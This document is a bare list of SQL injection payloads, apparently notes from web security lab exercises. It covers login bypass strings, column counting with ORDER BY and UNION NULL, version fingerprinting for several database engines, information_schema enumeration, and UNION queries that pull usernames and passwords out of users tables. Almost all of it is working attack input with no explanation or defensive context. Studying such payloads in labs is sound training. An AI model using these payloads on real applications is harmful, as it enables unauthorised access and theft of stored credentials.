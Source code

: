 admin' -- - trying a login with a correct username
test' OR 1=1 --
administrator'--
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
' UNION SELECT NULL,'searchstring',NULL--
'+UNION+SELECT+NULL,'administrator'+||+'~'+||+password+FROM+users--
' UNION SELECT username,password FROM users --
' UNION SELECT BANNER, NULL FROM v$version--
' UNION SELECT password,username || '~' || password FROM users--
'+UNION+SELECT+NULL,username+||+'~'+||+password+FROM+users--
'UNION SELECT @@version--
'UNION SELECT * FROM v$version--
'UNION SELECT version()--
'+UNION+SELECT+@@version,+NULL#
%27+UNION+SELECT+@@version,+NULL%23

'SELECT * FROM information_schema.tables--
'SELECT NULL,NULL FROM information_schema.tables--
'SELECT * FROM information_schema.columns WHERE table_name = 'Users'--

'UNION SELECT NULL,NULL FROM information_schema.tables--

'+UNION+SELECT+username,password+FROM+users--

'UNION+SELECT+@@version--
'UNION+SELECT+*+FROM+v$version--
'UNION+SELECT+version()--

'UNION SELECT TABLE_NAME,'a' FROM information_schema.tables--
'UNION SELECT TABLE_NAME,COLUMNS FROM information_schema.tables--
'UNION SELECT TABLE_NAME FROM information_schema.columns WHERE table_name = 'users_neught'--
'UNION SELECT TABLE_NAME,COLUMN_NAME FROM information_schema.columns--
'UNION SELECT TABLE_NAME,COLUMN_NAME FROM information_schema.columns WHERE table_name = 'users_neught'--

'UNION SELECT username_hkqvsd,password_arswcp FROM users_neught--

'UNION SELECT TABLE_NAME,'a' FROM information_schema.tables--
